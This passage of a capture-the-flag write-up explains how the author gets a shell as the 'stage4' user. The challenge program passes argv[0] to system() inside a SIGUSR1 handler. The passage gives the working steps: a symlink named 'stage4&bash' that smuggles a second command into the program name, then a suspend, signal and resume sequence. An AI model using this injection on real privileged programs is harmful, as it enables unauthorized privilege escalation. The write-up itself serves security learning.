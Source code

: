 ```c
```

The program sets up a signal handler for `SIGUSR1`, which contains the `system()` function call which must be exploited for getting a `stage4` shell here. The only parameter that can be controlled from the outside is `progname` which is assigned from `argv[0]`. That parameter can be controlled by setting up a symlink and using a similar approach as in stage3:

Setting up a symlink which will start a bash in the signal handler, but can be used in the same time to invoke `stage4`:

```sh
ln -s -T /home/stage4/stage4 'stage4&bash'
```

After invoking the program via the symlink, the program can be interrupted by sending `^z`, or Control-z in the terminal. The signal must arrive before `stage4` terminates. 

```sh
user@5bdd1e843b2e:~$./stage4\&bash 5000
# primes printed by stage4
^Z
[1]+  Stopped                 ./stage4\&bash 5000
user@5bdd1e843b2e:~$
```
Now it is possible to send the signal to the process and thereafter resuming it:
```
user@5bdd1e843b2e:~$ ps | grep stage4
    238 pts/0    00:00:00 stage4&bash
user@5bdd1e843b2e:~$ kill -SIGUSR1 238
user@5bdd1e843b2e:~$ fg
./stage4\&bash 5000
interrupt signal caught, terminating ./stage4
```
Now `user` runs a "stage4" `bash`:

![Stage4](Stage4.png)
